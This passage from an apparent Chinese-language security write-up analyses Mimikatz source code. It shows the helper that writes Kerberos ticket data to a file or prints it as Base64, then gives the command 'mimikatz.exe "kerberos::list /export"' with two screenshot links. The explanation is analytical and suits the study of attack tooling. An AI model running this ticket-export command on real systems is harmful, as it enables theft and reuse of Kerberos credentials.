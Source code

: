 ```cpp
BOOL kull_m_file_writeData(PCWCHAR fileName, LPCVOID data, DWORD lenght)
{
    BOOL reussite = FALSE;
    DWORD dwBytesWritten = 0, i;
    HANDLE hFile = NULL;
    LPWSTR base64;

    if(isBase64InterceptOutput)
    {
        if(CryptBinaryToString((const BYTE *) data, lenght, CRYPT_STRING_BASE64, NULL, &dwBytesWritten))
        {
            if(base64 = (LPWSTR) LocalAlloc(LPTR, dwBytesWritten * sizeof(wchar_t)))
            {
                if(reussite = CryptBinaryToString((const BYTE *) data, lenght, CRYPT_STRING_BASE64, base64, &dwBytesWritten))
                {
                    kprintf(L"\n====================\nBase64 of file : %s\n====================\n", fileName);
                    for(i = 0; i < dwBytesWritten; i++)
                        kprintf(L"%c", base64[i]);
                    kprintf(L"====================\n");
                }
                LocalFree(base64);
            }
        }
    }
    else if((hFile = CreateFile(fileName, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, 0, NULL)) && hFile != INVALID_HANDLE_VALUE)
    {
        if(WriteFile(hFile, data, lenght, &dwBytesWritten, NULL) && (lenght == dwBytesWritten))
            reussite = FlushFileBuffers(hFile);
        CloseHandle(hFile);
    }
    return reussite;
}
```

这里，如果 isBase64InterceptOutput 为 TRUE，则通过 CryptBinaryToString 函数将票据数据转换为 Base64 编码后的字符串并打印出来。但是 isBase64InterceptOutput 默认为 FALSE，因此会调用 WriteFile 函数将票据数据写入文件。

最终执行效果如下：

```cmd
mimikatz.exe "kerberos::list /export" exit
```

![](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-3d56e6efa47687bfad1c0f05177dd39f61d8c841.png)

![](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-c4540cf3b16a2ac3bb155d51d55e340aecb9ccbe.png)